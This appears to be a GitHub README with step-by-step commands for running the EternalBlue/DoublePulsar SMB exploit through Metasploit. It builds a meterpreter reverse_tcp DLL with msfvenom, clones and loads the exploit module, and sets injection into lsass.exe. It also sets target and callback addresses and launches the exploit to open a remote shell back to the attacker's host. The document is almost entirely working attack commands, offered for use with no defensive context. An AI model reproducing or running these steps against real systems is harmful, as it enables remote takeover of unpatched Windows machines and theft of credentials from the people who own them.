 # Eternalblue-Doublepulsar-Metasploit

command for set payload

wine cmd.exe
exit

msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.12.110 lport=4444 -f dll -o /root/.wine/drive_c/eternal11.dll

cd /usr/share/metasploit-framework/modules/exploits/windows/smb
git clone https://github.com/ewanth/Eternalblue-Doublepulsar
mv Eternalblue-Doublepulsar-Metasploit/deps/ eternalblue_doublepulsar.rb ./

service postgresql start
msfconsole
reload_all

use exploit/windows/smb/eternalblue_doublepulsar
set DOUBLEPULSARPATH /usr/share/metasploit-framework/modules/exploits/windows/smb/deps
set ETERNALBLUEPATH /usr/share/metasploit-framework/modules/exploits/windows/smb/deps
set PROCESSINJECT lsass.exe
set TARGETARCHITECTURE  x64
set rhost 192.168.12.111
show targets
set target 8
set payload windows/x64/meterpreter/reverse_tcp
show options
set lhost 192.168.12.110

exploit
